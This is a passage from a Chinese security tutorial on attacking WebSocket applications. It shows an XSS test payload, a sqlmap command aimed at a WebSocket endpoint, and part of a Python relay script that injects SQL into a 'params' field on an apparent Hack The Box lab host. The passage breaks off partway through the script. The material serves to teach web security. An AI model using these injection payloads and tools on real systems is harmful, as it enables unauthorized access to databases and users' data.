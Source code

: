 <img src=x onerror=alert(Al1ex);>

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218145631-1a9db2b8-7ea1-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218145631-1a9db2b8-7ea1-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218145643-21867e5c-7ea1-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218145643-21867e5c-7ea1-1.png)

#### 简易实例2

在学习WebSocket安全攻击手法的同时看到windcctv师傅介绍的一个关于WebSocket通过篡改数据包达到SQL注入漏洞利用的案例，由于网站已然无法访问，故而这边简单梳理一下其流程，首先是在信息收集期间发现目标站点实例WebSocket

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218145705-2e93e562-7ea1-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218145705-2e93e562-7ea1-1.png)  
通过对参数进行反复的修改和测试最终发现参数params存在注入  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218145721-384ca31e-7ea1-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218145721-384ca31e-7ea1-1.png)  
之后直接使用sqlmap：

sqlmap --url "ws://10.10.10.232/ws/" --data='{"params":"help","token":"a5e6c5aade60a2c4619893218280a45d2a142e3bcf583c8e1955c0b579f13009"}' -v 3 --dbs

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218145746-472b0e52-7ea1-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218145746-472b0e52-7ea1-1.png)  
payload如下所示：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218145801-4fb60658-7ea1-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218145801-4fb60658-7ea1-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218145811-560f5e32-7ea1-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218145811-560f5e32-7ea1-1.png)  
经过多次尝试都没有成功，之后通过中转脚本的方式成功实现了注入：

from websocket import create_connection
import re
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import unquote
import threading
from socketserver import ThreadingMixIn

hostname = "localhost"
serverport = 9000

def xt(msg):
    matches = re.findall(r'token":"(.*?)"', msg)
    return matches\[0\]

def send_msg(msg):
    resp = ""
    ws = create_connection("ws://gym.crossfit.htb/ws")
    resp =  ws.recv()
    cur_token = xt(resp)
    msg = unquote(msg)
    msg = msg.replace('"', "'")
    d = '{"message":"available","params":"'+msg+'","token":"' + cur_token + '"}'
    print(d)
    ws.send(d)
    resp = ws.recv()
    #print(resp)
    matches = re.findall(r'message":"(.*?)"', resp)
    print(matches\[0\])
    return matches\[0\]
